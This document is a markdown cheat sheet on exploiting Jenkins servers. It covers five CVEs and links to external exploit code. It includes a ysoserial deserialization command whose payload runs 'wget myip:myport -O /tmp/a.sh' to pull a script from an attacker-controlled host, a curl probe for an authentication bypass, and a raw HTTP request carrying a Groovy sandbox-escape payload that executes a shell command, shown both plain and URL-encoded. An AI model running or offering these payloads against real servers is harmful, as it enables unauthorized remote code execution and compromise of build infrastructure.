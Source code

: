 ## Jenkins
1. Deserialization RCE in old Jenkins (CVE-2015-8103, Jenkins 1.638 and older)

Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a payload.
Then RCE using [this script](./rce/jenkins_rce_cve-2015-8103_deser.py):

```bash
java -jar ysoserial-master.jar CommonsCollections1 'wget myip:myport -O /tmp/a.sh' > payload.out
./jenkins_rce.py jenkins_ip jenkins_port payload.out
```

2. Authentication/ACL bypass (CVE-2018-1000861, Jenkins <2.150.1)

Details [here](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html).

If the Jenkins requests authentication but returns valid data using the following request, it is vulnerable:
```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```

3. Metaprogramming RCE in Jenkins Plugins (CVE-2019-1003000, CVE-2019-1003001, CVE-2019-1003002)

Original RCE vulnerability [here](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html), full exploit [here](https://github.com/petercunha/jenkins-rce).

Alternative RCE with Overall/Read and Job/Configure permissions [here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc).

4. CVE-2019-1003030

How to Exploit:
- [PacketStorm](https://packetstormsecurity.com/files/159603/Jenkins-2.63-Sandbox-Bypass.html)

```
GET /jenkinselj/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public class x {
  public x(){
"ping -c 1 xx.xx.xx.xx".execute()
}
} HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID.4495c8e0=node01jguwrtw481dx1bf3gaoq5o6no32.node0
Connection: close
Upgrade-Insecure-Requests: 1
```
URL Encoding the following for RCE
```
public class x {
  public x(){
"ping -c 1 xx.xx.xx.xx".execute()
    }
}
```
to

%70%75%62%6c%69%63%20%63%6c%61%73%73%20%78%20%7b%0a%20%20%70%75%62%6c%69%63%20%78%28%29%7b%0a%22%70%69%6e%67%20%2d%63%20%31%20%78%78%2e%78%78%2e%78%78%2e%78%78%22%2e%65%78%65%63%75%74%65%28%29%0a%7d%0a%7d

5. Git plugin (<3.12.0) RCE in Jenkins (CVE-2019-10392)

How to exploit:
- [@jas502n](https://github.com/jas502n/CVE-2019-10392)
- [iwantmore.pizza](https://iwantmore.pizza/posts/cve-2019-10392.html)

Reference: 
- https://github.com/gquere/pwn_jenkins